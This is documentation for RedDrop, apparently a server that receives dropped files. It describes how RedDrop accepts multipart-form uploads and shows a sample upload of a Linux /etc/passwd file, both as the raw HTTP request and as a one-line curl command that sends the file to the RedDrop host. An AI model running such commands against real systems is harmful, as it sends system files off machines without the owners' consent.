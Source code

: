 # RedDrop File Upload
File upload is a core feature of RedDrop. It is enabled to all routes and allows any `multipart-form` request to be a file upload. Eventually, other types of requests may be added for file upload, but for the moment a request must be a `multipart-form` message similar to the following:

```http
POST / HTTP/1.1
Host: reddrop
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 1123
Content-Type: multipart/form-data; boundary=------------------------d985840f7e960320
Expect: 100-continue

--------------------------d985840f7e960320
Content-Disposition: form-data; name="file"; filename="passwd"
Content-Type: application/octet-stream

root:x:0:0:root:/root:/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

--------------------------d985840f7e960320--
```

This file was uploaded with the following command:
```bash
curl http://reddrop/ -F 'file=@/etc/passwd'
```